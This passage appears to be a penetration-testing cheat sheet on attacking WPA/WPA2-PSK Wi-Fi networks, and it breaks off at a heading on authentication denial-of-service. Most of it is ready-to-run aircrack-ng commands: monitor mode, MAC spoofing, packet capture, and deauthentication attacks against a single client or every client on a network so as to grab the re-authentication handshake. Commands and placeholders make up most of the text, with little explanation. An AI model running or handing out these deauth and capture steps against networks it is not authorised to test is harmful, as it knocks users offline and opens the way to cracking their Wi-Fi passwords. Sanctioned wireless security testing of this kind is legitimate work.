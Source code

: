 # WPA/WPA2 PSK

## 

![WPA2-PSK Message Exchange](../../.gitbook/assets/wpa2_psk.png)

## Setup

```text
sudo airmon-ng check kill
sudo airmon-ng
sudo airmon-ng start wlan0

# Change MAC
ifconfig wlan0mon down
macchanger -s wlan0mon
ifconfig wlan0mon up
```

To restart network services:

```text
sudo airmon-ng stop wlan1mon
sudo service NetworkManager restart
```

Start capturing:

```text
# 802.11.g is for 5GHz if you don't have the suitable hardwarte try to use --band ab
sudo airodump-ng -c <CH> --bssid <BSSID> [--band abg] --write <OUT_FILE> <IFACE>
```

## Handshake Capture \(Clients needed\)

### Deauth

Consist on deauthenticate a client in order to capture de re-authentication handshake.

```text
aireplay-ng -0 10 -a <BSSID> -c <CLIENT> <IFACE>
```

### Deauth Global

The same term of deauthentication, but in that case using the brodcast MAC address in order to deauthenticate all clients.

```text
airplay-ng -0 0 -e <ESSID> -c FF:FF:FF:FF:FF:FF <IFACE>
```

### Auth attack or Authentication DoS Mode
